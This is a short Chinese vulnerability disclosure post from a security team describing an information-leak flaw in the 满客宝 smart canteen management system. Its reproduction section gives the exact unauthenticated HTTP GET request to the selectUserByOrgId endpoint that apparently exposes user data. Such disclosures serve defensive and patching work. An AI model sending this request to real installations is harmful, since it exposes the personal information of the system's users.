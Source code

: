 #  满客宝智慧食堂管理系统selectUserByOrgId接口存在敏感信息泄露漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-06 23:59  
  
## 1. 漏洞描述  
  
	  
    “满客宝智慧食堂”是一款全面、先进的食堂管理软件，能够为各类企事业单位、政府机关、高校、医院及大型团餐服务集团提供全新的“移动互联”信息化整体解决方案，帮助企业摒弃传统餐饮管理弊端，挖掘“移动互联”管理精髓，直达运营管理核心，由内而外打造理念超前、技术先进的互联网食堂。满客宝智慧食堂迎合移动互联时代潮流，创新打造便捷的食堂订餐模式，可实现精准备餐/采购杜绝浪费/腐败、加强员工和食堂的互动、提升员工就餐体验和食堂服务水平。满客宝智慧食堂管理系统selectUserByOrgId接口存在敏感信息泄露漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKUCKfUGoUiaK9ma9r8UzKtQgfCmoG2OvYrfmc9icaISOqweibic7ib92xQEw/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
GET /yuding/selectUserByOrgId.action?record= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKNzbQIiaCibVFYRDkGIsClW5fJy6LEcFRuNjl3pcE6Mx95hFXvtZia7YOw/640?wx_fmt=png&from=appmsg "")  
```
```  
  
  
  
